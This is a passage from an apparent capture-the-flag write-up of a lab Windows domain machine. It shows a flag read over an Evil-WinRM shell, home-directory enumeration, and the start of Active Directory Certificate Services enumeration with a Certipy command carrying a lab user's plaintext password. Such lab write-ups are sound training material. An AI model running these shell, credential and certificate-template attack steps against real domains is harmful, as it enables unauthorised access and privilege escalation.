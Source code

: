 

    *Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
    6e6a6b72************************



## Shell as administrator

### Enumeration

#### Filesystem

raven's home directory is otherwise completely empty:



    *Evil-WinRM* PS C:\Users\Raven> ls -recurse .

        Directory: C:\Users\Raven

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        7/27/2023   8:24 AM                Desktop
    d-r---        7/27/2023   8:23 AM                Documents
    d-r---        9/15/2018  12:19 AM                Downloads
    d-r---        9/15/2018  12:19 AM                Favorites
    d-r---        9/15/2018  12:19 AM                Links
    d-r---        9/15/2018  12:19 AM                Music
    d-r---        9/15/2018  12:19 AM                Pictures
    d-----        9/15/2018  12:19 AM                Saved Games
    d-r---        9/15/2018  12:19 AM                Videos

        Directory: C:\Users\Raven\Desktop

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -ar---        3/12/2024   9:21 PM             34 user.txt



There's no other user directories, and the web directory doesn't have
anything else interesting.

#### ADCS

With a Windows domain, the next thing to check used to be Bloodhound,
but lately it's worth checking Advice Directory Certificate Services
(ADCS) as well, and that's quick, so I'll start there. This can be done
by uploading [Certify](https://github.com/GhostPack/Certify) or remotely
with [Certipy](https://github.com/ly4k/Certipy). I find Certipy easier.

I'll look for vulnerable templates:



    oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
